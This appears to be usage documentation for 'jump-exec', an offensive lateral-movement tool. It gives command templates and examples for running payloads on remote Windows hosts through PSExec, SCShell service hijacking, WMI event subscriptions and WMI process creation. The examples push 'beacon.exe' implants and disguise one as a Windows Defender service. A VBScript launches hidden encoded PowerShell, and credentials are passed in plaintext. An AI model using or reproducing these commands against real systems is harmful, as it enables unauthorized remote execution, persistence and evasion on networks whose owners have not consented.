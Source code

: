 ### **PSExec Method**
```bash
# Command structure
jump-exec psexec target service_name service_description executable_path

# Example
jump-exec psexec 192.168.1.10 WinDefend "Windows Defender Service" C:\temp\beacon.exe

# Requirements
- Local administrator privileges on target
- SMB access (port 445)
- Remote Registry access
- Service Control Manager access
```

### **SCShell Method**
```bash
# Command structure  
jump-exec scshell target service_name executable_path

# Example
jump-exec scshell WORKSTATION01 Spooler C:\Windows\System32\beacon.exe

# Requirements
- Service modification privileges
- Existing service to hijack
- SMB access for file operations
```

### **WMI EventSub Method**
```bash
# Command structure
jump-exec wmi-eventsub target [domain] [username] [password] vbscript_path

# Example
jump-exec wmi-eventsub 192.168.1.10 CORP admin password123 C:\temp\payload.vbs

# VBScript Example
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -enc <base64_payload>", 0, False

# Requirements
- WMI access (port 135, dynamic RPC)
- Administrative privileges
- VBScript execution capability
```

### **WMI ProcCreate Method**
```bash
# Command structure
jump-exec wmi-proccreate target [domain] [username] [password] command

# Example
jump-exec wmi-proccreate SERVER01 DOMAIN admin pass123 "powershell.exe -enc <payload>"

# Requirements
- WMI access and DCOM
- Process creation privileges
- Network authentication capability
```
